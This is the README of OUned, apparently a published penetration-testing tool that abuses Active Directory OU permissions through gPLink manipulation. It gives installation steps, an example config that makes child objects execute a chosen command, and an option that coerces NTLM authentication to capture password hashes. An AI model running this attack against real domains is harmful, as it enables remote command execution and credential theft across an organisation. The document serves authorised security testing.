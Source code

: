 # OUned

The OUned project, an exploitation tool automating Organizational Units ACLs abuse through gPLink manipulation.

For a detailed explanation regarding the principle behind the attack, the necessary setup as well as how to use the tool, you may refer to the 
associated article:
https://www.synacktiv.com/publications/ouned

# Installation

Installation can be performed by cloning the repository and installing the dependencies:

```bash
$ git clone https://github.com/synacktiv/OUned
$ python3 -m pip install -r requirements.txt
```

# Configuration file

OUned arguments are provided through a configuration file - an example file is provided in the repository, `config.example.ini`. 

Each entry is described by a comment, but for detailed configuration instruction, please refer to the article mentioned in the introduction above.
```ini
[GENERAL]
# The target domain name
domain=corp.com

# The target Organizational Unit name
ou=ACCOUNTING

# The username and password of the user having write permissions on the gPLink attribute of the target OU
username=naugustine
password=Password1

# The IP address of the attacker machine on the internal network
attacker_ip=192.168.123.16

# The command that should be executed by child objects
command=whoami > C:\Temp\accounting.txt

# The kind of objects targeted ("computer" or "user")
target_type=user


[LDAP]
# The IP address of the dummy domain controller that will act as an LDAP server
ldap_ip=192.168.125.245

# Optional (used for sanity checks) - the hostname of the dummy domain controller
ldap_hostname=WIN-TTEBC5VH747

# The username and password of a domain administrator on the dummy domain controller 
ldap_username=ldapadm
ldap_password=Password1!

# The ID of the GPO (can be empty, only needs to exist) on the dummy domain controller
gpo_id=7B7D6B23-26F8-4E4B-AF23-F9B9005167F6

# The machine account name and password on the target domain that will be used to fake the LDAP server delivering the GPC
# Do not forget to escape '%' signs by doubling them ! (e.g. '%%')
ldap_machine_name=OUNED$
ldap_machine_password=some_very_long_random_password_with_percent_signs_escaped

[SMB]
# The SMB mode can be embedded or forwarded depending on the kind of object targeted
smb_mode=forwarded

# The name of the SMB share. Can be anything for embedded mode, should match an existing share on SMB dummy domain controller for forwarded mode
share_name=synacktiv

# The IP address of the dummy domain controller that will act as an SMB server
smb_ip=192.168.126.206

# The username and password of a user having write access to the share on the SMB dummy domain controller
smb_username=smbadm
smb_password=Password1!

# The machine account name and password on the target domain that will be used to fake the SMB server delivering the GPT
# Do not forget to escape '%' signs by doubling them ! (e.g. '%%')
smb_machine_name=OUNED2$
smb_machine_password=some_very_long_random_password_with_percent_signs_escaped
```

# OUned usage

The only mandatory argument when running OUned is the `--config` flag indicating the path to the configuration file. 

The `--just-coerce` and `coerce-to` flags are used for SMB authentication coercion mode, in which OUned will force SMB authentication from 
OU child objects to the specified destination - for more details, see the article linked in the introduction.

Regarding the `--just-clean` flag, see the next section.

```
python3 OUned.py --help
                                                                                                                                                                                    
 Usage: OUned.py [OPTIONS]                                                                                                                                                          
                                                                                                                                                                                    
╭─ Options ────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ *  --config               TEXT  The configuration file for OUned [default: None] [required]                                                                                      │
│    --skip-checks                Do not perform the various checks related to the exploitation setup                                                                              │
│    --just-coerce                Only coerce SMB NTLM authentication of OU child objects to the destination specified in the --coerce-to flag, or, if no destination is           │
│                                 specified, to a local SMB server that will print their NetNTLMv2 hashes                                                                          │
│    --coerce-to            TEXT  Coerce child objects SMB NTLM authentication to a specific destination - this argument should be an IP address [default: None]                   │
│    --just-clean                 This flag indicates that OUned should only perform cleaning actions from specified cleaning-file                                                 │
│    --cleaning-file        TEXT  The path to the cleaning file in case the --just-clean flag is used [default: None]                                                              │
│    --verbose                    Enable verbose output                                                                                                                            │
│    --help                       Show this message and exit.                                                                                                                      │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
```

# About cleaning

By default and as explained in the article, OUned will perform cleaning actions and among others restore the original gPLink value in the target domain. In case the exploit could not exit properly, OUned creates a cleaning file each time the exploit is executed, that can be used later on to restore legitimate values by using the `--just-clean` flag; for instance:

```bash
$ python3 OUned.py --config config.example.ini --just-clean --cleaning-file cleaning/FINANCE/2024_04_14-05_02_46.txt
```
